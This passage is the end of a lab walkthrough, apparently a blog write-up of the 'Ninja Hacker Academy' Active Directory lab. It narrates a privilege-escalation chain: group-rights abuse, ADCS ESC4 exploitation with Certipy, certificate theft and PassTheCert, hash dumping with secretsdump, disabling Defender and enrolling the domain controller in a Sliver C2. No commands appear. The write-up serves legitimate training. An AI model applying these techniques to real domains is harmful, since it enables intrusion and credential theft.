just like that I have access to the `Rachel` user. From the above Bloodhound data I can already see that we are almost there, since `Rachel` is part of the `Sanin` group and that group has `GenericAll` rights over the `Jonin` group. Thus I can just add Rachel to the `Jonin` group.


The last attack we need to execute now is the `ADCS ESC4`, which is easier said then done. Especially if I'm performing ADCS ESC attacks by hand this consists of many many steps. Luckily for me the bread and butter for exploiting ADCS is a tool called [Certipy](https://github.com/ly4k/Certipy), making it much much easier to do.

> ***NOTICE**: In Upcoming blog(s), I will describe all the different ADCS ESC attacks. So keep an eye out on those if you are interested* 

I already know from the Bloodhound Data which path to take, but I will also show you a step back on what `Certipy` had to say about this. 


`Certipy` Identified the ADCS ESC just as that Bloodhound did. Confirming that this is the way. Let's exploit the ADCS ESC4 and own this last domain.

Abusing the ADCS ESC4 path basically means enabling the ADCS ESC1 technique since that allows us to request a certificate. I can do this by again leveraging the `Certipy` tool


And too verify if this indeed worked we can issue the `certipy find` once more and see which ADCS ESC technique's are now exploitable.


All that is left now is to request a certificate and abuse that certificate to elevate the rights of the `Rachel` user. Let's start with requesting the certificate


Now that I have obtained the administrator's certificate, we need to get this split this so we can actually work with these files.


Now I can [Pass The Certificate](https://www.thehacker.recipes/ad/movement/schannel/passthecert) with a tool created by [AlmondOffSec](https://github.com/AlmondOffSec/PassTheCert/). 


and all the remains now, is dumping the hashes with our trusty `impacket-secretsdump` tool and login with the obtained hash, nuke defender and add the final DC to our SliverC2.


and with that as final overview we finally graduated from the Ninja Hacker Academy. 